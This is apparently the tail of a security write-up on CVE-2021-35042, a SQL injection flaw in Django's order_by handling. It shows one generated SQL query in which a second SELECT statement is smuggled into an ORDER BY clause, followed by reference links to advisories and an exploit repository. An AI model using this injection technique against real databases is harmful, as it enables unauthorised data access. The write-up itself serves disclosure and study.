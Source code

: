 ![](https://i.imgur.com/sbkmrS0.png)

`SELECT "cve202135042_wolf"."id", "cve202135042_wolf"."name" FROM "cve202135042_wolf" ORDER BY ("cve202135042_wolf"."name"); SELECT * from cve202135042_wolf where id =1; --) ASC`


## V. Reference

https://www.djangoproject.com/weblog/2021/jul/01/security-releases/
https://xz.aliyun.com/t/9834
https://www.bugxss.com/vulnerability-report/3095.html
https://blankheart.top/2022/04/07/cve-2021-35042/
https://itcn.blog/p/1648921763575859.html
https://github.com/YouGina/CVE-2021-35042